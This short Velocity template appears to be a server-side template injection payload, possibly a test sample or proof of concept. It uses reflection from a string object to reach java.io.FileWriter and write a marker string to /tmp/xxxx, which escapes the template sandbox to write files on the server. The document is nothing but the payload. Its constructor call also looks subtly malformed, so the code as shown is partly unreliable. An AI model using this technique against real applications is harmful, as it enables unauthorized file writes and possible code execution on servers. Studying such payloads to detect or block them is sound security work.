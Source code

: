 #set( $monkey = '888888888888888888888888=========99999999999999999999999' )
$monkey
#set ($e="exp")
#set ($a=$e.getClass().forName("java.io.FileWriter"))
#set ($b = $a.FileWriter("/tmp/xxxx"))
#set ($c = $b.write("zzz"))
$monkey
